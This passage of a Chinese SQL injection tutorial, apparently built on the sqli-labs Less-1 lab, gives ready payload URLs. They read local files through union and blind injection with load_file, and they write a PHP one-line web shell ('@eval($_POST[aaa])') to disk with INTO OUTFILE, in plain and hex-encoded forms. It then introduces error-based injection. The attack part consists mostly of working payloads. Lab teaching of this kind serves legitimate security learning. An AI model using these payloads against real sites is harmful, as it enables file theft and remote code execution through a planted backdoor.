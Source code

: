 
示例：读取e盘下3.txt文件



union注入读取文件(load\_file)



```
//union注入读取 e:/3.txt 文件      
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file("e:/3.txt")#       
//也可以把 e:/3.txt 转换成16进制 0x653a2f332e747874      
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,2,load_file(0x653a2f332e747874)#
```




![](https://img-blog.csdnimg.cn/20181203202108410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70) ![](https://img-blog.csdnimg.cn/20181203202213731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



盲注读取文件



```
//盲注读取的话就是利用hex函数，将读取的字符串转换成16进制，再利用ascii函数，转换成ascii码，再利用二分法一个一个的判断字符，很复杂，一般结合工具完成      
http://127.0.0.1/sqli/Less-1/?id=-1' and ascii(mid((select hex(load_file('e:/3.txt'))),18,1))>49#' LIMIT 0,1
```




我们可以利用写入文件的功能，在e盘创建4.php文件，然后写入一句话木马



union写入文件(into outfile)



```
//利用union注入写入一句话木马  into outfile 和 into dumpfile 都可以      
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,'<?php @eval($_POST[aaa]);?>'  into outfile  'e:/4.php' #       
// 可以将一句话木马转换成16进制的形式      
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile  'e:/4.php' #
```




四：报错注入

------



**利用前提**: 页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql\_error()  

**优点**: 不需要显示位  

**缺点**: 需要输出 mysql\_error( )的报错信息

